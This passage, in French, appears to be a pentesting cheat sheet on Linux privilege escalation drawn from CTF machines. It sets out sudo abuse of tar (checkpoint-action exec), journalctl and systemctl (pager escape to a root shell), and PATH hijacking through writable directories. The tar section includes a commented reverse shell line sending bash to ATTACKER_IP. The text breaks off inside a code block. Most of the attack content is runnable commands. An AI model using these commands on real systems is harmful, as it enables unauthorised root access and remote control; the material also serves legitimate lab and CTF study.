 ##### Exploitation de `tar` avec Sudo
Exemple (Cockpit):
> Si `sudo -l` autorise `tar`.
```bash
# Vérifier les droits sudo
sudo -l
# Si /usr/bin/tar est autorisé :
sudo /usr/bin/tar -czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=/tmp/shell.sh .
# Ou pour un reverse shell :
# echo 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1' > /tmp/shell.sh
# chmod +x /tmp/shell.sh
# sudo /usr/bin/tar -czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=/tmp/shell.sh .
```

##### Exploitation de `journalctl` avec Sudo
Exemple (Jordak):
> Si `sudo -l` autorise `journalctl`. `journalctl` utilise `less` par défaut pour afficher la sortie.
```bash
# Vérifier les droits sudo
sudo -l
# Si /usr/bin/journalctl est autorisé :
sudo /usr/bin/journalctl -n5 -unostromo.service
# Une fois dans l'interface de 'less', tapez :
!/bin/bash
# Ou !sh
```

##### Exploitation de `systemctl` avec Sudo
Exemple (Scrutiny):
> Si `sudo -l` autorise `systemctl`. `systemctl` peut aussi utiliser `less`.
```bash
# Vérifier les droits sudo
sudo -l
# Si systemctl est autorisé :
sudo systemctl # (ou une sous-commande qui pagine, ex: systemctl status some.service)
# Une fois dans l'interface de 'less', tapez :
!sh
```

#### Analyse des Permissions de Fichiers et Répertoires pour Manipulation
> Identifier les fichiers et répertoires avec des permissions d'écriture qui pourraient être abusées.

*   **Scénario 12 (Hijacking de binaires via répertoires inscriptibles dans le PATH) :** Si l'utilisateur a des permissions d'écriture dans un répertoire présent dans le `PATH` de `root` (ou utilisé par un service/script tournant en tant que `root`), il peut créer un fichier exécutable malveillant portant le même nom qu'une commande système. Lorsque le processus privilégié tentera d'exécuter cette commande sans chemin absolu, notre binaire malveillant sera exécuté.
    ```bash
    # Vérifier les permissions des répertoires dans le PATH de root (obtenu via `sudo -l` ou `sudo su -c 'echo $PATH'`)
    # Exemple: si /usr/local/bin est inscriptible et dans le PATH de root
    ls -ld /usr/local/bin
    # echo '/bin/bash -p' > /usr/local/bin/common_command
    # chmod +x /usr/local/bin/common_command